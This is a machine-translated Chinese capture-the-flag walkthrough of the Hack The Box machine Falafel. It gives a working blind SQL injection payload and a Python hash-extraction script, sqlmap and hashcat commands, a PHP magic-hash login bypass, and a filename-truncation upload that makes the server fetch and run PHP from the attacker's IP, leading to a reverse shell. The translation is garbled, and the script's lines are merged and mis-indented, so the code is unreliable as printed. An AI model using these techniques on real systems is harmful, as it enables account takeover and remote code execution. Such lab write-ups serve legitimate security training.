# [HTB]沙拉三明治——报道(OSWE 预科)

> 原文：<https://infosecwriteups.com/htb-falafel-writeup-oswe-prep-3b8b56b64076?source=collection_archive---------3----------------------->



沙拉三明治是一个很难的 Linux 盒子。非常好的学习途径:

*   基于布尔的盲信号
*   PHP 类型杂耍攻击(松散比较弱点/魔法散列)
*   上传 PHP 脚本的文件名截断攻击
*   Linux 帧缓冲区(`video`组特权)
*   Linux 文件系统调试(`disk`组权限)

# 初步侦察

## Nmap

```
**# nmap -Pn --open -T4 -sV -sC -p- 10.10.10.73**Starting Nmap 7.80 ( [https://nmap.org](https://nmap.org) ) at 2021-04-10 20:40 EDT
Nmap scan report for 10.10.10.73
Host is up (0.081s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 36:c0:0a:26:43:f8:ce:a8:2c:0d:19:21:10:a6:a8:e7 (RSA)
|   256 cb:20:fd:ff:a8:80:f2:a2:4b:2b:bb:e1:76:98:d0:fb (ECDSA)
|_  256 c4:79:2b:b6:a9:b7:17:4c:07:40:f3:e5:7c:1a:e9:dd (ED25519)
**80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))**
| http-robots.txt: 1 disallowed entry 
|_/*.txt
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Falafel Lovers
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

*   **HTTP (80/TCP)** —一个沙拉爱好者的网页。



## Web 目录枚举(Gobuster)

像往常一样，我运行了一个快速的`gobuster`,看看能否在网络服务器上发现更多有趣的文件/文件夹。

```
# gobuster dir -u [http://10.10.10.73](http://10.10.10.73) -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
```



*   `/cyberlaw.txt` —看起来像电子邮件的有趣文本页面。它还透露了一个潜在的用户名`chris`。



[http://10 . 10 . 10 . 73/cyber law . txt](http://10.10.10.73/cyberlaw.txt)

# 最初的立足点

## SQL 注入(基于布尔的盲注入)

因为除了一个登录表单之外没有什么，所以我想做一些潜在的 SQLi 检查。我通过 Burp 捕获了登录帖子请求，并将其发送给了`sqlmap`。



登录发布请求

## SQLMap 尝试#1

当我刚刚将登录请求与 SQLMap 一起使用时，它没有找到任何东西。

```
# sqlmap -r login.req --level 5 --risk 3 --batch
```

当 SQLMap 运行时，我注意到登录表单中不同的服务器响应。

*   有效用户=错误标识:<valid username=""></valid>



*   无效用户=重试..



*   一些 SQLi 企图=检测到黑客企图！



这可能很有趣，因为如果`username=`参数易受 SQLi 攻击，我们可以使用这些不同的服务器响应来读取数据库。

所以基本上，如果为真，我们会得到“错误识别”的响应，如果为假，我们会得到“再试一次”的响应。

## SQLMap 尝试#2

我给 SQLMap 添加了`--string`标志来证实我的理论。

```
# sqlmap -r login.req --level 5 --risk 3 --batch **--string "Wrong identification"**
```


酷毙了。它发现了漏洞参数为`username=`，还发现了后端数据库为 MySQL 5。让我们看看是否可以滥用它从数据库中检索密码散列。

我使用了以下有效载荷来确认我们是否能够识别出`chris`用户密码的正确起始字符:

```
username=chris**' and password like 'a%'-- -**&password=password
```

*   如果`chris`密码以字母`a`开头= TRUE 语句
*   如果`chris`密码**不是以字母`a`开头的**=错误声明



所以接下来，我用 Burp 的闯入者迭代字母表字符集:



## 获取 chris 密码哈希

不错:)我想我们找到了。我们现在可以创建一个自定义脚本来检索密码哈希。

```
**# falafel_sqli.py**import requests
import sysdef username_sqli(ip, username):
    for i in range(1,33): 
        for j in range(32,126):
            payload = "%s' and substring(password,%s,1) = '%s'-- -" % (username,i,chr(j))
            data = {'username':payload, 'password':'password'}
            #print(data)
            r = requests.post('http://%s/login.php' % ip, data = data)
            if "Wrong identification" in r.text:
                char = str(chr(j))
                if char >='A' and char <= 'Z':
                    continue
                else:
                    sys.stdout.write(char)
                    sys.stdout.flush()def main():
    if len(sys.argv) != 3:
        print("[INFO] Usage: %s <Target> <Username>" % sys.argv[0])
        print("[INFO] Example: %s 10.10.10.73 chris" % sys.argv[0])
        sys.exit()ip = sys.argv[1]
username = sys.argv[2]print("[INFO] Username: %s" % username)
    print("[INFO] MySQL Dumping Password Hash...")
    username_sqli(ip, username)
    print("\n[INFO] Done!")if __name__ == "__main__":
    main()
```



不错！现在，我们使用 hashcat 破解检索到散列，它破解了密码:`chris : juggling`

```
# hashcat -a 0 -m 0 chris.hash /usr/share/wordlists/rockyou.txt --force
```



现在我以`chris`的身份成功登录



> 您可以使用命令:`# sqlmap -r login.req — level 5 — risk 3 — batch — string “Wrong identification” — dbms mysql — dump`通过 SQLMap 完成所有这些 SQLi 攻击，但是不使用自动化工具总是很有趣:)



但是在以`chris`的身份登录后，那里什么也没有。但是在他的文章中，他一直提到“杂耍”,这可能意味着我们的下一个挑战:PHP 类型杂耍。

## PHP 类型杂耍(管理帐户接管)

使用相同的脚本，我检索了`admin`用户的密码散列。



我注意到`admin`密码散列以`0e...`开始，这表明我们可以通过滥用 PHP 松散的比较弱点来绕过认证。

## 魔法哈希

因为我们知道散列是 MD5，我从这个网站找到了它的神奇散列。Magic hash 的工作原理是与其他 hash 发生冲突，这两个 hash 都被视为“0”，因此比较结果为**真**。如果你想了解更多 PHP 类型杂耍，我推荐[这个](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf.)。



使用密码作为`240610708`，我成功地以`admin`用户的身份登录。



管理员配置文件

`Admin`还有上传功能。



## 上传 PHP 反向外壳

我做了一些快速测试，看看这个`/upload.php`在做什么。当我输入`http://<My Kali IP>/test.png`时，我得到了下面的详细错误。(*注意:使用其他文件类型如`.php`受到限制)



它试图从我的卡利盒子里取出文件。



## 文件名截断

我注意到，如果我试图上传一个文件名非常长的文件，它会抱怨“文件名太长”。让我们试着控制文件名长度，看看我们是否可以上传`.php`文件。



另一件有趣的事情来自上面的服务器响应是*“试图缩短…\n 新名字是“*的一部分。由于长度限制，它基本上是重写文件名。:)



当我计算新文件名的长度时，它是 236。



所以…

```
[http://10.10.14.12](http://10.10.14.12) + **<236 Character Allowed for Filename>** + .png
```

让我们试试下面的方法，看看我们能否上传一个`.php`文件:

```
python -c 'print("[http://10.10.14.12/](http://10.10.14.12/)" + **"A"*233 + ".php"** + ".png")'http://10.10.14.12/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.png
```

在发送有效载荷之前，让我们用这个名字创建一个文件，并把它放在我们的 web 服务器上。



当我发送有效载荷时，它看起来很有希望:)



当我检查上传的网址，我成功地获得任意 PHP 代码执行。

```
[http://10.10.10.73/uploads/0412-0010_dbe09fe3603f833a/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php](http://10.10.10.73/uploads/0412-0010_dbe09fe3603f833a/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php)
```


## PHP 反向外壳

我把文件内容从`<?php phpinfo(); ?>`交换到 PHP 反向 shell。



我做了同样的过程来上传一个文件，通过访问上传的 URL，我收到了作为`www-data`用户的反向 shell。


# 权限提升

## www-data → moshe(密码重用)

我在`connections.php`文件中找到了`moshe`用户的以下凭证:`moshe : falafelIsReallyTasty`



## user.txt

重用该凭证，我能够以`moshe`用户的身份 SSH 登录并读取`user.txt`标志。

